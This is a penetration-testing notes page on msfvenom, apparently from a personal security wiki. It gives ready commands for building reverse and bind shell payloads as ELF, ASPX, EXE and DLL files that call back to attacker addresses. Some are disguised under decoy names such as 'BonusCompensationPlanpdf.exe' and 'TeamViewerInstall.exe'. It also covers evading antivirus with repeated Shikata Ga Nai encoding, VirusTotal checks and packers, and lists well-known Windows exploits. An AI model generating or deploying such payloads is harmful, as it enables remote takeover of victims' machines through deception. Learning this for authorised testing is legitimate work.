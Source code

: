 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# msfvenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  

# list all the available payloads
msfvenom -l payloads  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```


## Staged payload

```bash
# Example of a linux staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile

# Example of a windows staged payload
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=10.10.14.72 lport=1234 -f aspx -o lal
```


After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything aditional (no metasploit connection), just the netcat listener on the computer.

```bash
# Example of a windows stageless payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.


## crafting a DLL file with a webshell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file
```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


### crafting a .exe file with Shikata Ga Nai encoder

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

# -e: chosen encoder 
```

Shikata Ga Nai encoder will be most likely detected by AV and IDS/IPS. One better option would be to try running it through multiple iterations of the same Encoding scheme:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

But, still, we could be getting detected.


## Module msf-virustotal

 Alternatively, Metasploit offers a tool called msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.
 
```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```


## Packers

The term `Packer` refers to the result of an `executable compression` process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:

| | | |
|---|---|---|
|[UPX packer](https://upx.github.io)|[The Enigma Protector](https://enigmaprotector.com)|[MPRESS](https://www.matcode.com/mpress.htm)|
|Alternate EXE Packer|ExeStealth|Morphine|
|MEW|Themida||

If we want to learn more about packers, please check out the [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf).


## Mitical attacks

|**Vulnerability**|**Description**|
|---|---|
|`MS08-067`|MS08-067 was a critical patch pushed out to many different Windows revisions due to an SMB flaw. This flaw made it extremely easy to infiltrate a Windows host. It was so efficient that the Conficker worm was using it to infect every vulnerable host it came across. Even Stuxnet took advantage of this vulnerability.|
|`Eternal Blue`|MS17-010 is an exploit leaked in the Shadow Brokers dump from the NSA. This exploit was most notably used in the WannaCry ransomware and NotPetya cyber attacks. This attack took advantage of a flaw in the SMB v1 protocol allowing for code execution. EternalBlue is believed to have infected upwards of 200,000 hosts just in 2017 and is still a common way to find access into a vulnerable Windows host.|
|`PrintNightmare`|A remote code execution vulnerability in the Windows Print Spooler. With valid credentials for that host or a low privilege shell, you can install a printer, add a driver that runs for you, and grants you system-level access to the host. This vulnerability has been ravaging companies through 2021. 0xdf wrote an awesome post on it [here](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).|
|`BlueKeep`|CVE 2019-0708 is a vulnerability in Microsoft's RDP protocol that allows for Remote Code Execution. This vulnerability took advantage of a miss-called channel to gain code execution, affecting every Windows revision from Windows 2000 to Server 2008 R2.|
|`Sigred`|CVE 2020-1350 utilized a flaw in how DNS reads SIG resource records. It is a bit more complicated than the other exploits on this list, but if done correctly, it will give the attacker Domain Admin privileges since it will affect the domain's DNS server which is commonly the primary Domain Controller.|
|`SeriousSam`|CVE 2021-36924 exploits an issue with the way Windows handles permission on the `C:\Windows\system32\config` folder. Before fixing the issue, non-elevated users have access to the SAM database, among other files. This is not a huge issue since the files can't be accessed while in use by the pc, but this gets dangerous when looking at volume shadow copy backups. These same privilege mistakes exist on the backup files as well, allowing an attacker to read the SAM database, dumping credentials.|
|`Zerologon`|CVE 2020-1472 is a critical vulnerability that exploits a cryptographic flaw in Microsoft’s Active Directory Netlogon Remote Protocol (MS-NRPC). It allows users to log on to servers using NT LAN Manager (NTLM) and even send account changes via the protocol. The attack can be a bit complex, but it is trivial to execute since an attacker would have to make around 256 guesses at a computer account password before finding what they need. This can happen in a matter of a few seconds.|

